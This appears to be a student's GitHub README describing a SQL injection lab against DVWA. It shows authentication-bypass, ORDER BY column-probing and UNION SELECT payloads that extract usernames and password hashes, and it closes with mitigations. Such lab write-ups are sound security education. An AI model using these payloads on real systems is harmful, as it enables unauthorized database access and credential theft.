


# 🔐 Task 3: SQL Injection Attack using DVWA

## 👨‍💻 Author

**Avijit Baidya**

---

## 📌 Overview

This project demonstrates a **SQL Injection vulnerability** using DVWA (Damn Vulnerable Web Application). It shows how improper input validation can lead to **authentication bypass and database data exposure**.

---

## 🎯 Objectives

* Understand SQL Injection concepts
* Exploit a vulnerable web application
* Extract database records
* Learn mitigation techniques

---

## 🛠 Tools Used

* DVWA
* XAMPP (Apache + MySQL)
* phpMyAdmin
* Web Browser
* GitHub

---

## ⚙️ Environment Setup

* Installed and started XAMPP
* Configured DVWA (`config.inc.php`)
* Created database using setup page
* Logged in using default credentials

---

## 🔑 DVWA Login

* Username: `admin`
* Password: `password`

📸 Screenshot:


---

## 🧪 SQL Injection Attack

### 🔹 Payload Used

```sql
' OR '1'='1
```

📸 Execution:


---

## 💥 Result

* Retrieved all user records
* Successfully bypassed authentication
* Confirmed SQL Injection vulnerability

📸 Output:


---

## 🔍 Technical Explanation

### Original Query:

```sql
SELECT * FROM users WHERE id = 'INPUT';
```

### Injected Query:

```sql
SELECT * FROM users WHERE id = '' OR '1'='1';
```

👉 Condition always TRUE → returns all records

---

## 🚀 Advanced SQL Injection

### 🔹 Column Detection

```sql
1' ORDER BY 1 --
1' ORDER BY 2 --
1' ORDER BY 3 --
```

📸


---

### 🔹 UNION-Based Injection

```sql
1' UNION SELECT user, password FROM users --
```

👉 Extracts:

* Usernames
* Password hashes

---

## 🧑‍💻 Additional Observations

* Created additional users in database
* SQL Injection retrieves all entries from users table

📸


---

## ⚠️ Security Impact

* Authentication bypass
* Data leakage
* Unauthorized database access
* Risk of full system compromise

---

## 🔥 Exploit Summary

The application is vulnerable to SQL Injection due to improper input validation. Attackers can manipulate SQL queries to bypass authentication and extract complete database records.

---

## 🛡 Mitigation Techniques

* Use prepared statements
* Input validation and sanitization
* Parameterized queries
* Least privilege principle
* Web Application Firewall (WAF)

---

## 📁 Project Structure

```
Task-3-SQL-Injection/
│
├── screenshots/
│   ├── attacking number of columns.png
│   ├── config.inc.php.png
│   ├── DVWA File.png
│   ├── dvwa login page.png
│   ├── SQL Injection.png
│   ├── Successfully Login 1.png
│   ├── Successfully Login 2.png
│   └── User ID Creation.png
│
└── README.md
```

---

## 🎯 Learning Outcomes

* Practical SQL Injection exploitation
* Understanding of web vulnerabilities
* Hands-on penetration testing experience
* Secure coding awareness

---

## 🔗 References

* https://owasp.org/www-community/attacks/SQL_Injection
* https://portswigger.net/web-security/sql-injection
* https://en.wikipedia.org/wiki/SQL_injection

---
